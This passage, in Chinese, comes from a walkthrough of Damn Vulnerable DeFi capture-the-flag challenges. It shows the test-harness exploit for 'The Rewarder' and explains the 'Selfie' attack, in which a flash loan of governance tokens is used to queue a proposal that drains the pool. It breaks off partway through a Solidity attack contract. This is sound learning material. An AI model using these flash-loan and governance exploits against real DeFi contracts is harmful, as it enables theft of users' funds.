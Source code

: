 ```solidity
}
```

在`test/the-rewarder/the-rewarder.challenge.js`中，具体代码如下：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const hacker = await ethers.getContractFactory('HackerRewarder', player);
        const hackerRewarder = await hacker.deploy(rewarderPool.address,
                                                   flashLoanPool.address,
                                                   liquidityToken.address,
                                                   rewardToken.address);
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
        await hackerRewarder.connect(player).attack(TOKENS_IN_LENDER_POOL);
        const hackedReward = await rewardToken.balanceOf(hackerRewarder.address);
        await rewardToken.connect(player).transferFrom(hackerRewarder.address,player.address,hackedReward);
    });
```

其中，要记得通过`evm_increaseTime`将时间调整5天以达成分红的条件！

<hr />

# 6. Selfie

解决思路：

首先我们要看一下攻击的入口很明显是`SelfiePool.sol`中的`emergencyExit`，但有一个`onlyGovernance`的限制。

我们看治理合约里，可以提出提案`queueAction`，但前提是`_hasEnoughVotes(msg.sender)`，然而之后`2 days`后，执行通过的合约就不需要再次校验了！

所以我们可以利用闪电贷发起提案，2天后执行就好！

我们需要手写合约，具体如下（为简便起见，不导入，直接用abi.encodeWithSignature）：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract HackerSelfie {

    using Address for address;

    address flashLoan;
    address govern;
    address token;
    address owner;
    uint256 public requestId;

    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");


    constructor(address _flashLoan,address _govern, address _token){
        flashLoan = _flashLoan;
        govern = _govern;
        token = _token;
        owner = msg.sender;
    }

    function attack(uint256 amount) public{
        flashLoan.functionCall(abi.encodeWithSignature("flashLoan(address,address,uint256,bytes)",
            address(this),token,amount,""));
    }
```